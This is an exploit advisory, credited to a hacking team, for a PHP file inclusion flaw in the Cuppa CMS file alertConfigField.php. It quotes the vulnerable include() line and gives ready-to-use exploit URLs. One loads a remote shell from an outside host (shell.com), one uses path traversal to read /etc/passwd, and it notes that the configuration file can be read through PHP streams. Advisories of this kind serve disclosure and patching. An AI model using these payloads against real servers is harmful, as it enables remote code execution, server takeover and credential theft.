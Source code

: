 # Vendor Homepage : http://www.cuppacms.com/
# Software Link   : http://jaist.dl.sourceforge.net/project/cuppacms/cuppa_cms.zip
# Version         : Beta
# Tested on       : Window and Linux

  ,--^----------,--------,-----,-------^--,
  | |||||||||   `--------'     |          O .. CWH Underground Hacking Team ..
  `+---------------------------^----------|
    `\_,-------, _________________________|
      / XXXXXX /`|     /
     / XXXXXX /  `\   /
    / XXXXXX /\______(
   / XXXXXX /          
  / XXXXXX /
 (________(            
  `------'

####################################
VULNERABILITY: PHP CODE INJECTION
####################################

/alerts/alertConfigField.php (LINE: 22)

-----------------------------------------------------------------------------
LINE 22: 
        <?php include($_REQUEST["urlConfig"]); ?>
-----------------------------------------------------------------------------
    

#####################################################
DESCRIPTION
#####################################################

An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.

http://target/cuppa/alerts/alertConfigField.php?urlConfig=[FI]

#####################################################
EXPLOIT
#####################################################

http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

Moreover, We could access Configuration.php source code via PHPStream 
